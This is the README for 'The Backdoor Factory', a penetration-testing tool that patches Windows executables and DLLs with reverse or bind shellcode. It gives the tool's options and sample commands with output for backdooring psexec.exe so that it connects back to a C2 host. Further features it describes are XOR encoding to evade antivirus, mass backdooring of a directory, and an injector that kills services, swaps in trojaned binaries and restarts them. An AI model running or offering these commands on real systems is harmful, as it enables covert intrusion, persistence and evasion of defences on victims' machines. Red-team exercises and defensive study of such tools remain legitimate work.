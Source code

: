 ##The Backdoor Factory
Backdoors win32 PE files, to continue normal file execution (if the shellcode supports it), by patching the exe/dll directly.

Some executables have built in protections, as such this will not work on all PE files.  It is advisable that you test target PE files before deploying them to clients or using them in exercises.

It is preferred to use a code cave vs appending a code cave. Win32 binaries now run on x64 working with ASLR for proper continued execution after shellcode has run.

Recently tested on all 32bit Sysinternal tools.

Side note: I'm reworking the code, starting to look too much like spaghetti.
---

Usage: ./backdoor.py -h

Usage: backdoor.py [options]

Options:
  -h, --help            show this help message and exit

  -f FILE, --file=FILE  File to backdoor
  
  -i HOST, --hostip=HOST
                        IP of the C2 for reverse connections
  
  -p PORT, --port=PORT  The port to either connect back to for reverse shells
                        or to listen on for bind shells
  
  -o OUTPUT, --output-file=OUTPUT
                        The backdoor output file
  
  -s SHELL, --shell=SHELL
                        Payloads that are available for use.
  
  -n NSECTION, --section=NSECTION
                        New section name must be less than seven characters
  
  -c, --cave            The cave flag will find code caves that can be used
                        for stashing shellcode. This will print to all
                        the code caves of a specific size. The -l flag can be
                        use with this setting.
  
  -d DIR, --directory=DIR
                        This is the location of the files that you want to
                        backdoor. You can make a directory of file backdooring
                        faster by forcing the attaching of a codecave to the
                        exe by using the -a setting.
  
  -v, --verbose         For debug information output.
  
  -e ENCODER, --encoder=ENCODER
                        Encoders that can help with AV evasion.
  
  -l SHELL_LEN, --shell_length=SHELL_LEN
                        For use with -c to help find code caves of different
                        sizes
  
  -a, --add_new_section
                        Mandating that a new section be added to the exe
                        (better success) but less av avoidance
  
  -w, --change_access   This flag changes the section that houses the codecave
                        to RWE. Sometimes this is necessary. Enabled by
                        default. If disabled, the backdoor may fail.
  
  -j, --injector        This command turns the backdoor factory in a hunt and
                        shellcode inject type of mechinism. Edit the target
                        settings in the injector module.
  
  -u SUFFIX, --suffix=SUFFIX
                        For use with injector, places a suffix on the original
                        file for easy recovery

  -D, --delete_original
                        For use with injector module.  This command deletes
                        the original file.  Not for use in production systems.
                        *Author not responsible for stupid uses.*


---
Features:

-After making a copy of the target file, the file copy will be patched directly.

-Finding all codecaves in an EXE/DLL.

-Injecting modified reverse/bind shells that allow continued execution after connection to the attacker.

-Modifying the PE/COFF header to add an additional section for all win32 executables/dlls, including those with an import table.

-Using the existing shellcode options, the ability to select PORT and HOST as connection options

-The ability to backdoor a directory of executables/dlls

-List all codecaves in the exe/dll

-Select the codecave in the exe/dll to backdoor, thereby not changing the filesize.

-Includes a simple XOR shellcode encoder.

---------------------------------------------
Sample Usage:

#Backdoor a exe/dll using an existing code cave:

./backdoor.py -f psexec.exe -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -e xor_encode 

The following caves can be used to inject code and possibly continue execution
use a number greater than the highest reference to add a code cave to the executable/dll
versus using an existing code cave.. Good luck:

1 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d2d5 End: 0x2d4d0; Cave Size: 507

2 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d4e9 End: 0x2d6d5; Cave Size: 492

3 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d6e3 End: 0x2d8d8; Cave Size: 501

4 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d8f1 End: 0x2dadd; Cave Size: 492

5 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dae7 End: 0x2dce0; Cave Size: 505

6 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dcf3 End: 0x2dee5; Cave Size: 498

7 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2defb End: 0x2e0ea; Cave Size: 495

8 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2e161 End: 0x2e390; Cave Size: 559

9 Section Name: .rsrc; Section Begin: 0x2f200 End: 0x5bc00; Cave begin: 0x2f578 End: 0x2f708; Cave Size: 400

10 Section Name: .rsrc; Section Begin: 0x2f200 End: 0x5bc00; Cave begin: 0x58a39 End: 0x58c68; Cave Size: 559

Enter your selection: 2

Using selection: 2

psexec.exe backdooring complete

File bd.psexec.exe is in current directory


---

#Backdoor an exe/dll by adding a code section:

./backdoor.py -f psexec.exe -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a -e xor_encode

Adding a new section to the exe/dll for shellcode injection

psexec.exe backdooring complete

File bd.psexec.exe is in current directory

---
#Backdoor a directory of exes:
./backdoor.py -d test/ -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a


...output too long for README...

---
#Hunt and backdoor: Injector
The injector module will look for target executables to backdoor on disk.  It will check to see if you have identified the target as a service, check to see if the process is running, kill the process and/or service, inject the executable with the shellcode, save the original file to either file.exe.old or another suffix of choice, and attempt to restart the process or service.  
Edit the python dictionary "list_of_targets" in the 'injector' module for targets of your choosing.

./backdoor.py -j -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a -u .moocowwow 
